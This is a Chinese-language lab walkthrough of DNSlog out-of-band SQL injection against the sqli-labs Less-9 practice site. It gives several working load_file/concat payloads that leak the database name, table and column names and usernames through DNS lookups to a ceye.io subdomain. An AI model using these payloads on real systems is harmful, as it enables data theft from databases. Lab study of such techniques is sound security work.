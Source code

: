 注册一个第三方DNS解析平台：http://ceye.io/  知道创宇的DNS平台

![](https://img.yatjay.top/md/202203251650793.png)

查询当前数据库名：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select database()),'.c4d3hg.ceye.io\\sql'))--+
```

![1626268713_60eee42920f8528632b38.png!small?1626268713117](https://img.yatjay.top/md/202203251650910.jpeg)

回显的数据

![1626268723_60eee43360cafc71599ff.png!small?1626268725107](https://img.yatjay.top/md/202203251650825.jpeg)

查询当前数据库的第一个表名：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security'limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

![1626268773_60eee4654f0a1b325ef13.png!small?1626268773449](https://img.yatjay.top/md/202203251650901.jpeg)

可以看到这里成返回了第一个表的名字

依次类推可以推出users表

查询第users表一个列名：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

![1626268799_60eee47f0c2f9d0845d0e.png!small?1626268798947](https://img.yatjay.top/md/202203251650187.jpeg)

查询users表的username列的数据：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select username from users limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

![1626268814_60eee48e0b6e4d99d9953.png!small?1626268813976](https://img.yatjay.top/md/202203251651878.jpeg)

需要注意的点：

查询当前用户时,因为结果中有@符号，使用dnslog注入时，需要使用hex函数进行转码，再将查询到的hex转码后的数据解码即可，如下：

如果使用group_concat函数进行快读查询，也同样需要hex转码，利用如下：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select hex(group_concat(table_name)) from information_schema.tables where table_schema='security'),'.c4d3hg.ceye.io\\sql'))--+
```
